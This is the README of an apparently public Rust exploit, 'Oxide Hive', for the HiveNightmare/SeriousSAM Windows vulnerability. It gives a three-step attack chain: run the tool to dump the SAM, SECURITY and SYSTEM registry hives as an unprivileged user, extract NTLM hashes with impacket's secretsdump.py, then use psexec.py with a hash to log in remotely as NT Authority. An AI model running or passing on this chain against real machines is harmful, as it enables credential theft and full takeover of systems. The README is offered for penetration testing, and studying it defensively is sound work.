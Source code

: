# Oxide Hive
An exploit for the HiveNightmare/SeriousSAM vulnerability that allows you to read registry hives containing sensitive data without admin privileges. If that doesn't sound like privilege escalation I don't know what does.

# Usage
After building the exploit with `cargo build` and retrieving the binary, deploy it in your testing environment, open CMD and do `.\oxide_hive [max shadow copies]`, the default for shadow copies is 15. The hives SAM, SECURITY and SYSTEM should be dumped to the working directory

From then on you can use [this script](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) with the command `secretsdump.py -sam SAM.dump -security SECURITY.dump -system SYSTEM.dump local` to retrieve the NTLM hashes.
Then you can use [another script](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) with the command `psexec.py -hashes <account's hash> <user>@<machine's ip> cmd.exe` to remotely log into any account. Congrats, you just went from unprivileged user to NT Authority with only 3 commands.

# Credits
- @jonasLyk, the person who discovered the vulnerability
- @GossiTheDog, the creator of [the original exploit](https://github.com/GossiTheDog/HiveNightmare) which I took inspiration from
